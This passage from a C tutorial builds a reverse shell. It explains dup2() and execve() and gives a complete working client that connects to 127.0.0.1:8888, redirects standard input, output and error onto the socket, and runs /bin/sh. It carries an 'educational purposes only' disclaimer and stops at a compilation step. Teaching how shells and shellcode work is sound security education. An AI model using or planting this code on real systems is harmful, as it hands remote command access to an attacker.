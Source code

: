 ## dup2()
Now we already have an established TCP connection we need to generate a new shell and send it through our socket. We can use *dup2()* in order to accomplish it. According to the [man page](https://linux.die.net/man/2/dup2):

```
dup2() makes newfd be the copy of oldfd, closing newfd first if necessary, but note the following:
    * If oldfd is not a valid file descriptor, then the call fails, and newfd is not closed. 
    * If oldfd is a valid file descriptor, and newfd has the same value as oldfd, then dup2() does nothing, and returns newfd.
```

So we will copy each of the INPUT, OUTPUT and ERROR files descriptors into our socket.

```
dup2(sock, 0);
dup2(sock, 1);
dup2(sock, 2);
```

Finally, we use [execve](https://linux.die.net/man/2/execve):

    execve() executes the program pointed to by filename

Therefore:

    execve("/bin/sh", 0, 0);

## Working TCP client
In order to create the simplest client possible, we cut all the error corrections. This is for **educational purposes only** and should NEVER be used in production.

```
int main(int argc , char *argv[]){
	int sock;
	struct sockaddr_in server;

	sock = socket(AF_INET , SOCK_STREAM , 0);

	server.sin_addr.s_addr = inet_addr("127.0.0.1");
	server.sin_family = AF_INET;
	server.sin_port = htons( 8888 );

	connect(sock , (struct sockaddr *)&server , sizeof(server));

	dup2(sock, 0);
	dup2(sock, 1);
	dup2(sock, 2);

	execve("/bin/sh", 0, 0);
	return 0;
}
```

Compiling it without any optimizations and for x86:
